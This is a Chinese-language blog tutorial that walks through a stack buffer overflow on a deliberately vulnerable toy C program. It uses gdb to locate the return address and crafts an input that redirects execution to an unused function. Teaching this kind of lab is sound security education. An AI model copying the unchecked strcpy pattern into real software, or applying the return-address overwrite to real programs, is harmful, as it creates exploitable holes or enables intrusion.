 ```yaml
---
# MUST HAVE BEG
layout: post
disqus_identifier: 20150604-buffer-overflow-poc # DO NOT CHANGE THE VALUE ONCE SET
title: A Buffer Overflow POC
# MUST HAVE END

is_short: true
subtitle:
tags: 
- gdb
date: 2015-06-04 18:00:00
image: 
image_desc: 
---
```


	#include <stdio.h>
	#include <string.h>

	void call_me() {
	    printf("you called me \n");
	}

	void func1(char *s) {
	    char buf[16];
	    strcpy(buf, s); // buffer may overflow here
	}

	int main(int argc, char **argv) {
	    func1(argv[1]);
	}

实验的环境是Ubuntu 14.04.1，gcc 4.8.2。编译的选项如下，

    $ gcc -m32 -fno-stack-protector -g -static poc.cpp -o poc.out

目标是构造一个输入字符串覆盖函数`func1`的返回地址，使得函数`call_me`被调用到，比如，

    $ ./poc.out some-input-string-to-overflow-buffer

当程序执行到`func1`的时候，[stack][1]大概是这个样子：

    | func1's local variable | 低地址方向
    | like buf[16]           |
    |------------------------|
    | main's ebp             | <= 当前的ebp
    |------------------------|
    | return address         | <= 返回地址，就是func1返回后，main函数应该执行的下一条指令
    |------------------------|
    | main's stack ...       | 高地址方向

如果把上图中的`return address`修改成`call_me`的函数地址就可以让`call_me`被调用到。

通过`nm`可以查看`call_me`的地址（`call_me`两边的字符是C++ name mangling的副作用）

    $ nm poc.out | grep call_me
    08048e24 T _Z7call_mev

用[gdb的tui模式][2]打开可执行文件，

    $ gdb -tui poc.out

<!-- at least one blank line before <div>, <p>, <pre> or <table>,
and one blank after </div>.
but you can use <span>, <cite>, <del> freely -->
<div style="text-align: center;">
  <img src="/images/blog/buf-overflow-poc.png" alt="gdb tui snapshot" style="width:620px;">
</div>

	(gdb) set disassembly-flavor intel  # 让gdb在显示汇编时使用intel风格
	(gdb) ctrl-x 2                      # 在tui模式下同时显示代码和汇编窗口
	(gdb) focus asm                     # 焦点设在汇编窗口上，可以用上下箭头滚动窗口
	(gdb) b main                        # 进入程序时，先断住
	(gdb) run abc                       # 运行可执行文件时传入一个参数“abc”

滚动一下汇编窗口可以找到`func1`函数的返回地址`0x8048e6b`，就是`call`指令的下一条指令的地址，

    │0x8048e66 <main(int, char**)+20>        call   0x8048e38 <func1(char*)>
    │0x8048e6b <main(int, char**)+25>        mov    eax,0x0 

让程序执行到`func1`函数里，然后停住。这时，可以检查下stack是不是和上面画的示意图一致。

	(gdb) x $ebp+4
	0xffffcf9c:     0x08048e6b

`$ebp+4`（`+4`，因为可执行程序是编译成32位的）存的就是返回地址，确实是`0x8048e6b`。

函数`func1`对应的汇编指令如下，

     │0x8048e38 <func1(char*)>        push   ebp            
     │0x8048e39 <func1(char*)+1>      mov    ebp,esp     
     │0x8048e3b <func1(char*)+3>      sub    esp,0x28        
    >│0x8048e3e <func1(char*)+6>      mov    eax,DWORD PTR [ebp+0x8]     
     │0x8048e41 <func1(char*)+9>      mov    DWORD PTR [esp+0x4],eax      
     │0x8048e45 <func1(char*)+13>     lea    eax,[ebp-0x18]             
     │0x8048e48 <func1(char*)+16>     mov    DWORD PTR [esp],eax     
     │0x8048e4b <func1(char*)+19>     call   0x80481e0         
     │0x8048e50 <func1(char*)+24>     leave 
   
`call`指令会调用库函数`strcpy()`进行buffer的拷贝。在`leave`指令处设一个断点，检查下buffer拷贝的效果。

    (gdb) b *0x8048e50        #在leave处break

检查一下局部变量`buf[]`对应的内存，看看“abc”是否已经被拷贝到`buf[]`上了。`a`，`b`，`c`对应的ASCII码
为`0x61`，`0x62`，`0x63`。可以通过`man ascii`快速查看一下ASCII码表，

    $ man ascii
       Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
       ────────────────────────────────────────────────────────────────────────
       000   0     00    NUL '\0'                    100   64    40    @
       001   1     01    SOH (start of heading)      101   65    41    A
       ...
       041   33    21    !                           141   97    61    a
       042   34    22    "                           142   98    62    b
       043   35    23    #                           143   99    63    c

在gdb里检查`buf[]`对应的内存，

	(gdb) x/16bx $ebp-16   ＃'b'，以Byte为单位检查内存， '16'，检查16个Byte
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

并没有发现“abc”对应的字节。这是因为内存是以8字节对齐的。扩大内存的检查范围就可以看到`a`，`b`，`c`，

	(gdb) x/24   # 24 = 8 * 3
	0xffffcf80:     0x61    0x62    0x63    0x00    0x50    0xd0    0xff    0xff
	0xffffcf88:     0x01    0x00    0x00    0x00    0xe2    0x95    0x04    0x08
	0xffffcf90:     0x02    0x00    0x00    0x00    0x44    0xd0    0xff    0xff

所以为了覆盖`func1`的返回地址，需要24（`buf[16]`）＋ 4（`ebp`） ＋ 4（`0x08048e24`）＝ 32字节。

	$ ./poc.out 1234567890123456789012345678$'\x24'$'\x8e'$'\x04'$'\x08'
	you called me 
	Segmentation fault (core dumped)

通过`$'\x24'`可以在终端里输入一个非打印字符（详见`man bash`）。因为实验机器的字节序是Little Endian，
低位存放在内存低地址处，所以通过`$'\x24'$'\x8e'$'\x04'$'\x08'`来表示`0x08048e24`。

程序最后出现了Segmentation fault，应该是因为没有为`call_me`设立正确的返回地址导致的。

另外，快速查看机器字节序（Byte Order）的一个方法，
   
	$ lscpu
	Architecture:          x86_64
	CPU op-mode(s):        32-bit, 64-bit
	Byte Order:            Little Endian
   ...

Have Fun😄

[1]: http://www.csee.umbc.edu/~chang/cs313.s02/stack.shtml "stack"
[2]: /gdb-tui-mode.html "gdb tui mode"



